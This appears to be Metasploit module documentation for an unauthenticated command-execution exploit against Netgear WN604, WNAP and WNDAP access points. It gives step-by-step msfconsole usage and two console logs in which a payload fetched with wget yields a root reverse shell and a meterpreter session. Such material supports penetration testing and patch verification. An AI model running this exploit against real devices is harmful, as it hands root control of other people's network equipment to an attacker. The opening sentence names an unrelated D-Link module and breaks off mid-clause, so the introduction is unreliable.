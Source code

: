 The module dlink_dir850_(un)auth_exec leverages an unauthenticated arbitrary command execution vulnerability to. Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0 are vulnerable. The vulnerability occurs within how the router handles POST requests from (1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and (5) boardDataWW.php. The vulnerability was discovered by Daming Dominic Chen, creator of FIRMADYNE (https://github.com/firmadyne/firmadyne).

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set SRVHOST [Your server's IP]`
  5. Do : `set LHOST [Your IP]`
  6. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp` if you want meterpreter session
  7. Do : `exploit`
  8. If router is vulnerable, payload should be dropped via wget and executed, and you should obtain a session


## Example with default payload (linux/mipsbe/shell_reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.0.100
RHOST => 192.168.0.100
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.0.99
SRVHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.0.99
LHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/netgear_unauth_exec) > 
[*] Started reverse TCP handler on 192.168.0.99:4444 
[+] Got 200 OK for boardDataNA.php
[*] Starting the web service on http://192.168.0.99:8080/IXjlVHwcHNUELM ...
[*] Using URL: http://192.168.0.99:8080/IXjlVHwcHNUELM
[*] Sending the payload to the server...
[*] Command shell session 1 opened (192.168.0.99:4444 -> 192.168.0.100:44785) at 2018-10-08 11:31:45 +0630
[+] Deleted /tmp/IXjlVHwcHNUELM

msf exploit(linux/http/netgear_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

uname -a
Linux netgear123456 2.6.32.70 #1 Thu Feb 18 01:39:21 UTC 2016 mips unknown
whoami
root
```

## Example with meterpreter (linux/mipsbe/meterpreter/reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.0.100
RHOST => 192.168.0.100
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.0.99
SRVHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.0.99
LHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/netgear_unauth_exec) > 
[*] Started reverse TCP handler on 192.168.0.99:4444 
[+] Got 200 OK for boardDataNA.php
[*] Starting the web service on http://192.168.0.99:8080/UcyqnUAGQ ...
[*] Using URL: http://192.168.0.99:8080/UcyqnUAGQ
[*] Sending the payload to the server...
[*] Sending stage (1108408 bytes) to 192.168.0.100
[*] Meterpreter session 1 opened (192.168.0.99:4444 -> 192.168.0.100:44787) at 2018-10-08 11:34:02 +0630
[+] Deleted /tmp/UcyqnUAGQ

msf exploit(linux/http/netgear_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer     : 192.168.0.100
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
